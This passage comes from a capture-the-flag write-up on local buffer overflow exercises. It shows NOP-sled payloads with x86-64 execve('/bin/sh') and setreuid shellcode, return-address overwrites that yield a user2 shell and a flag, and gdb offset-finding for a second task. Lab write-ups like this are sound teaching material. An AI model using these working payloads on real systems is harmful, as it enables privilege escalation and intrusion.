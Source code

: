 ```
python -c "print('\x90'*26+'\xdb\xc8\xd9\x74\x24\xf4\x5e\xbf\x0e\xeb\x66\x12\x2b\xc9\xb1\x13\x31\x7e\x18\x83\xc6\x04\x03\x7e\x1a\x09\x93\x78\x29\x95\xc5\x2f\x4b\x4d\xdb\xac\x1a\x6a\x4b\x1c\x6f\x1d\x8c\x0a\xa0\xbf\xe5\xa4\x37\xdc\xa4\xd0\x61\x23\x49\x21\x0e\x42\x3d\x01\xff\xec\xd2\x2c\x9a\xc3\x59\xdc\x01\x6e\x93\x0d\xa6\xf8\xb6\x23\x5e\x69\x56\xb3\xb3\x42\x87\x48\xae\xc7\xa5\xcb\x44\x26\x3e\x6c\xd0\x36\xe9\xdf\x91\xd6\xd8\x60'+'\x90'*26+'\x08\xe9\xff\xff\xff\x7f')"
```

Despite a lot of different ways and iterations of trying this, this doesn't work, so I went with the write-up's [way](https://www.arsouyes.org/articles/2019/54_Shellcode) of generating this shellcode:

```
'\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05'
```

So: 

```
python3
shellcode = '\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05'
len(shellcode)
40
```

Therefore: 

```
./buffer-overflow $(python -c "print('\x90'*90 + '\x31\xff\x66\xbf\xea\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05' + '\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + '\x90'*8 + '\x98\xe2\xff\xff\xff\x7f')")
```

And we got the shell, `whoami` returns `user2`:

```
cat secret.txt
omgyoudidthissocool!!
```

## _Buffer Overflows 2_

This has to go much the same way as the previous task. The source code is telling us that allocated buffer is 154 bytes, but it's filled with `doggo`, so that makes it 149 bytes. I started counting upward from there, until the overflow occurred and the offset beyond which the overflow occurs is 163:

```
(gdb) run $(python -c "print('A'*164)")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user1/overflow-4/buffer-overflow-2 $(python -c "print('A'*164)")
new word is doggoAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x0000000000400041 in ?? ()
```
